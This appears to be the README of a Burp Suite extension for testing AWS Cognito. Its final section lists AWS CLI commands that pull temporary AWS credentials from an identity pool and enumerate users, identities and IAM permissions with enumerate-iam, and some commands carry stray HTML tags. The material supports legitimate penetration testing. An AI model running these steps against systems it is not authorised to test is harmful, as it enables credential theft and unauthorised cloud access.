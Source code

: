 # AWS Cognito (Using the Montoya API)

__Author: Nick Coblentz__

Building this plugin was possible thanks to my employer and friends at: https://www.virtuesecurity.com

This extension helps identify key information from requests to AWS Cognito, provides several passive scan checks, and suggests HTTP request templates for exploiting several known vulnerabilities. Features include:
- Proxy History: Adding comments to Burp Proxy History to reflect the Cognito Method found in `X-Amz-Target: AWSCognitoIdentityProviderService.RevokeToken`
- Passive Scan Issues:
  - Log URLs observed matching `^cognito-(?:identity|idp)(?:-fips)?.[^\.]+.amazonaws.com$`
  - Log Identity Pool IDs observed in requests and suggestions for exploiting it (see below)
  - Log Client IDs observed in requests
  - Log custom user attributes found in the `idToken` or `GetUser` response
  - Log `InitiateAuth` requests and suggest request templates for `SignUp` and `UpdateUserAttributes` 
  - Log `AWSCognitoIdentityService.GetCredentialsForIdentity` requests containing temporary credentials

## Examples

### Burp Proxy Comments Reflected the `X-Amz-Target`

![](screenshots/2023-07-12-14-54-55.png)

### Identity Pool Found

![](screenshots/2023-07-12-14-43-08.png)

### Identity Pool URL Found

![](screenshots/2023-07-12-14-43-53.png)

### Sign Up Request

![](screenshots/2023-07-12-14-44-33.png)

### Generated Requests to Send to Repeater

#### Sign Up

![](screenshots/2023-07-12-14-47-02.png)

#### UpdateUserAttributes

![](screenshots/2023-07-12-14-47-43.png)

## Download the Plugin

See the packages section on the right hand side of this GitHub Repo. Look for `burpmontoyacognito-x.y.z-fatjar.jar`.

## How to build this plugin

### Setup a GitHub Access Token

#### Why

Even though the Utility Package referenced by the build is public, Github still requires you to have an access token

Here's the relevant content in my `build.gradle.kts` file
```kotlin
repositories {
    mavenCentral()
    maven {
        url = uri("https://maven.pkg.github.com/ncoblentz/BurpMontoyaUtilities")
        credentials {
            username = project.findProperty("gpr.user") as String? ?: System.getenv("GHUSERNAME")
            password = project.findProperty("gpr.key") as String? ?: System.getenv("GHTOKEN")
        }
    }
}
```

```kotlin
dependencies {
    implementation("com.nickcoblentz.montoya.libraries:burpmontoyautilities:+")
```
#### What to do

1. Log into your personal github account and create an access token that can "Read Packages"
2. `export GHUSERNAME="yourusernamehere"`
3. `export GHTOKEN="youraccestokenhere"`

### Command-Line
```bash
$ ./gradlew fatJar
```
### InteliJ
1. Open the project in Intellij
2. Open the Gradle sidebar on the right hand side
3. Choose Tasks -> Other -> fatJar

## How to add this plugin to Burp
1. Open Burp Suite
2. Go to Extensions -> Installed -> Add
    - Extension Type: Java
    - Extension file: build/libs/burpmontoyacognito-x.y.z-fatjar.jar

## Identity Pool Exploitation Reference

```bash
$ export AWS_DEFAULT_REGION="regionhere"
$ export AWS_IDENTITY_POOL_ID="identitypoolidhere"
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID #anonymous attempt
$ #idtoken is found after logging in with a normal user to AWS Cognito as part of the normal application flow 
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvaluehere #authenticated, Produces an IdentityId (use below)
$ export AWS_IDENTITY_ID="valuefromabove"
$ aws cognito-identity get-credentials-for-identity --identity-id $AWS_IDENTITY_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvalueherefrominitauthresponse # Produces SessionToken, SecretKey, SecretKey
$ export AWS_ACCESS_KEY_ID="...";export AWS_SECRET_ACCESS_KEY="...";export AWS_SESSION_TOKEN="..."
$ aws sts get-caller-identity #check what additional roles this token has
$ aws cognito-identity describe-identity --identity-id $AWS_IDENTITY_ID</code></li>
$ aws cognito-identity describe-identity-pool --identity-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity list-identity-pools --max-results 100</code></li>
$ aws cognito-identity list-identities --identity-pool-id $AWS_IDENTITY_POOL_ID --max-results 100</code></li>
$ aws cognito-idp list-users --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-idp admin-list-devices --username test1 --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity get-open-id-token --identity-id $AWS_IDENTITY_ID --no-sign</code> and <code>aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign #Basic Flow Enabled?
$ # see https://github.com/andresriancho/enumerate-iam/pull/15/commits/77ad5b41216e3b5f1511d0c385da8cd5984c2d3c to prevent it from getting stuck
$ git clone https://github.com/andresriancho/enumerate-iam.git && cd enumerate-iam && pip install -r requirements.txt
$ ./enumerate-iam.py --access-key $AWS_ACCESS_KEY_ID --secret-key $AWS_SECRET_ACCESS_KEY --session-token $AWS_SESSION_TOKEN --region $AWS_DEFAULT_REGION          
```

